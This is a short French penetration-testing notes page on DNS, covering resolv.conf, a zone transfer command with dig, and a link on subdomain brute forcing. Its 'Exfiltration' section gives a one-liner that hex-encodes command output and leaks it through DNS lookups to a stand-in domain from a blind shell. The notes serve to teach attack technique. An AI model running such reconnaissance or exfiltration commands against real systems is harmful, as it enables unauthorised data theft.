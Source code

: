 ```yaml
---
title: DNS
permalink: /DNS/
---
```


# DNS

## Configuration

Sous Linux, le serveur DNS utilisé se configure en modifiant le fichier **/etc/resolv.conf**.

## Exploitation

### Zone Transfer

Il est possible de récupérer des informations en effetuant un **DNS Zone Transfer**. Ici on effectue un transfert de zone du domaine thinc.local sur le serveur DNS 192.168.31.221:

``` bash
dig -t axfr @192.168.31.221 thinc.local
```

### Brute force DNS

<https://blog.bugcrowd.com/discovering-subdomains>

### Exfiltration

On peut utiliser DNS pour exfiltrer des réponses si on a un shell sans retour et aucune possibilité d'avoir un retour direct (nc, http request, etc.)

``` bash
id | xxd -p > /tmp/exfiltration; for line in $(cat /tmp/exfiltration); do dig $line.domain.com; done
```


